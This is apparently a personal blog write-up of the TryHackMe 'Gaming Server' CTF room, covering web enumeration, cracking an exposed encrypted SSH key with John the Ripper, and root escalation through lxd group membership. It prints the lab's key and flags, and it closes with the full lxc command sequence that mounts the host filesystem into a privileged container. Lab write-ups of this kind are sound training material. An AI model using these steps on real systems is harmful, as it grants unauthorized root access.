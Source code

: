 ```yaml
---
title: Gaming Server (Try Hack Me)
author: Robin Goyal
date: 2021-09-11 10:45 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Enumeration

The initial nmap scan of the top 1000 ports of the target reveals two open ports:
- 22 (SSH)
- 80 (HTTP)

![nmap results](/assets/img/posts/thm-gaming-server/nmap-initial.jpg)

The target is an Ubuntu Linux OS as indicated in the SSH and Apache version information.

Unlike the past few rooms that we have completed, the Apache server does not have the default title upon installation so let's check that out first.

### HTTP

![initial landing page](/assets/img/posts/thm-gaming-server/initial-landing.jpg)

The content of the web application looks something out of Game of Thrones! Before we browse other sections of the application, let's perform some directory enumeration using gobuster!

![gobuster common.txt results](/assets/img/posts/thm-gaming-server/gobuster-common.jpg)

I trimmed the output of the gobuster results as most of the results `.ht*` files that we do not have access to. The command I used to obtain these results is:
`gobuster dir -u 10.10.148.18 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "php,txt,html,old,bak" -t 25`

A robots.txt file! This wasn't in the nmap results but it may contain more endpoints that we were not exposed to from the gobuster results.

```
user-agent: *
Allow: /
/uploads/
```

Hmm, we have already encountered that in the gobuster results but it must be important. With an uploads directory, there may be a vector to upload a reverse shell payload (possibly /secret?) and trigger the connection from the uploads directory.

Before we switch focus to the /secret and /uploads directories, let's explore the application a bit and check for any information leaked in the content or in the page source.

Only the index.html source leaked some information about a potential name/username.

![index-source](/assets/img/posts/thm-gaming-server/index-source.jpg)

This may be handy afterwards!

## Initial Foothold

We can finally switch focus to the two interesting directories from the gobuster results. Viewing the /secret directory:

![secret index](/assets/img/posts/thm-gaming-server/secret-index.jpg)

This Apache server provides an indexed view for the /secret directory. Viewing the contents of secretKey, it is an SSH private key that is encrypted by a passphrase.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

Before we use John the Ripper and the rockyou wordlist to crack this, we should check if /uploads provides a similar indexed view to /secret.

![uploads index](/assets/img/posts/thm-gaming-server/uploads-index.jpg)

It does! Of the three files, the dict.lst file may contain one of the passphrases for the SSH private key. A quick glance at the other two files did not provide any interesting information. We can ignore those for now and come back to them later if needed.

With the three pieces of information:
- username: john
- private key protected by passphrase: secretKey
- dictionary: dict.lst

This should be enough to obtain our initial foothold into the target.

Let's use ssh2john.py to convert the SSH private key into a crackable file by John the Ripper. Next, we'll use JTR with the dict.lst wordlist and see if it can be cracked.

![john the ripper](/assets/img/posts/thm-gaming-server/john.jpg)

Awesome! I bet letmein was in the rockyou wordlist anyways but a more complicated password in the dict.lst file would've rendered that point moot.

![initial foothold](/assets/img/posts/thm-gaming-server/initial-foothold.jpg)

We have our initial foothold into the system as john and let's grab the user flag.

![user flag](/assets/img/posts/thm-gaming-server/user-flag.jpg)

User Flag: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

## Privilege Escalation

Listing the sudo privileges of john is a dead end as it requests the password which we do not have.

I tried a few other things:
- Searching for files owned by user John or group John
- Searching for any misconfigured SUID binaries
- World readable/writable /etc/shadow and /etc/passwd files

None of these vectors returned anything. As I was about to grab the linpeas enumeration script, I checked the groups for john to see if there was anything out of the ordinary.

![groups](/assets/img/posts/thm-gaming-server/groups.jpg)

The group `lxd` stood out to me. Performing some google-fu for "lxd group privesc" and one of the top hits was an article by hackingarticles on how to abuse this [^lxd-priv-esc].

The abuse of the lxd privileges is WAY beyond my technical knowledge but I will try to summarize the steps very briefly here. The article does a fantastic job of that anyways.

A member of the "lxd" group can escalate their privileges to root even if the user does not have sudo privileges. The user can create a container mounting the root file system (/) into the container and enter the container as the root user.

The steps to configure the abuse as well as exploit are documented in the article. The article mounts the root filesystem to /mnt/root in the container. Once we enter the container, the user will be root and we can find the flag at /mnt/root/root/root.txt.

![root flag](/assets/img/posts/thm-gaming-server/root-flag.jpg)

And there we go! We have completed this room!

Root Flag: `2e337b8c9f3aff0c2b3e8d4e6a7c88fc`

## Reflection

The lxd group being the way to privilge escalation stood out from prior experience of completing this room. I had never encountered this before so the first time I completed this room, I took a quick peek at a walkthrough to know that lxd was the vector for privesc.

This doesn't fall into the standard privilege escalation vectors that a majority of the Easy THM rooms utilize but I love coming across new ones. Recognizing the needle in the haystack comes with experience as you build a mental understanding of what is normal and not normal.

In the end, I enjoyed learning something new and not that it is documented, I hope I won't forget it.

## Useful Commands

### lxd privilege escalation

1. Build the alpine image on attacker system

```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine
```

2. Transfer the generated tar file to the target

3. Use the following commands to import the image, mount the file system, and enter the container

```
$ lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
$ lxc init myimage ignite -c security.privileged=true
$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start ignite
$ lxc exec ignite /bin/sh
```

## References

[^lxd-priv-esc]: <https://www.hackingarticles.in/lxd-privilege-escalation/>
